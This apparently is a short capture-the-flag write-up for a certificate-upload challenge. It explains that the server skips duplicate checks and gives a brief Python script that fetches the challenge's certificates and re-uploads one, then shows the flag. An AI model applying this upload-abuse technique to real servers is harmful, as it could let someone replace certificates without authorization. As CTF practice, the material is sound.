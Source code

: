 ```yaml
---
ai_date: 2025-04-27 05:13:36
ai_summary: Unchecked certificate upload vulnerability allowed replacing a certificate.
ai_tags:
  - ssl
  - upload
  - certificates
created: 2024-08-08T09:33
points: 500
updated: 2025-07-14T09:46
---
```


The server does not check for duplicate certificates, which means I can just upload one of the certs given.

```python
import requests
from io import BytesIO
certs = requests.get('https://bugcrowd-certificate-of-completion.chals.io/api').json()
print(requests.put('https://bugcrowd-certificate-of-completion.chals.io/api', files={'file': BytesIO(certs[0]['content'].encode())}).text)
```

```flag
flag{non_random_prime_means_rsa_go_brrrr}
```